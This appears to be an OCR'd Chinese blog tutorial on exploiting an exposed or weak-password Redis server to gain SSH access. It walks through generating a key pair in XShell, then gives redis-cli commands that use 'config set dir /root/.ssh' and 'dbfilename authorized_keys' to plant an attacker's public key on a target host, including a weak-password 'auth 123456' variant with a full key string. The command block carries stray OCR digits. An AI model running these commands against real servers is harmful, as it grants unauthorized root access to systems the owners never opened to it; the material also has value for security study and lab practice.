 

###  一：写入SSH公钥，进行远程登录



关于[SSH](https://so.csdn.net/so/search?q=SSH&spm=1001.2101.3001.7020)公私钥验证，我就不多讲了，传送门——> [ssh公私钥验证](https://blog.csdn.net/qq_36119192/article/details/82709867#Openssh%E5%85%AC%E7%A7%81%E9%92%A5%E9%AA%8C%E8%AF%81%EF%BC%9A "ssh公私钥验证")   ，文章中是在Linux下生成公私钥。



今天我要教的是在windows下利用XShell生成公私钥，然后验证登录。



打开XShell—>工具—>新建用户密钥生成向导—>下一步—>下一步



![](https://img-blog.csdnimg.cn/20181129202249270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



我这里就用默认名称，密码为空密码，然后下一步—> 是 



![](https://img-blog.csdnimg.cn/20181129202300493.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



保存为文件，然后完成。然后[公钥](https://so.csdn.net/so/search?q=%E5%85%AC%E9%92%A5&spm=1001.2101.3001.7020)就会被保存到指定的路径下，我这里保存到了 redis 客户端的目录下，因为待会便于传输。我们打开 id\_rsa\_2048.pub ，在其开头和结尾加入几个回车换行，避免待会写入redis数据库中和Redis里其他缓存数据混合 。



注意：一定要在公钥的开头和结尾加入几个换行，不然会出错！！！



![](https://img-blog.csdnimg.cn/20181129202442479.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后我们现在如何将这个公钥传送到靶机的 /root/.ssh/ 目录下，并且重命名为  authorized\_keys 。



执行下面的操作



```
type id_rsa_2048.pub | redis-cli.exe -h 192.168.10.32 -x set j 　＃查看id_rsa_2048.pub的文件内容，并且键设置为　ｊ      
redis-cli -h 192.168.10.32  #登陆到该redis数据库      
config set dir /root/.ssh  #设置redis的工作路径为/root/.ssh      
config set dbfilename authorized_keys #设置保存文件名authorized_keys      
save #保存       
＃上面命令的意思就是，将我们id_rsa_2048.pub的文件内容写入到authorized_keys文件中，并且存放到/root/.ssh 目录下       
如果是redis有弱口令的话，我们可以      1
redis-cli -h 192.168.10.32      1
auth  123456      1
set jjj "\n\nssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAqkf5/rPR9oHUwbln2cTeFduQwhTK5QEz7E3M9gM2fqrXA13N3WDKlCOUctTfRb0IHVcTXddDIqjOwOAg8fXrVINotxeGggJiJ2VwWnvE4J2KlTJhgLrF1giNFWOGs+iywvgLxEFx/4zjwicK7Z9Knk54rLx/wNcuvaBp7SecPlz3itN6Jm2vZs322bmRq7jcrQGPYu/7OoNsy/cF2F4EwDPPB9VeDAkLfle9n2g1A1voqw9wHziABEkZjQg5iQ+jUpCbhFy4OXIhygTpSPE6PSs7e0sh4KmAx3V7cRjg+2wrNlyLbXd3JaNdbu6oDPRia8jyNVbFoBOuv3z1lqXiUw==\n\n"      1
config set dir /root/.ssh      1
config set dbfilename authorized_keys      1
save
```
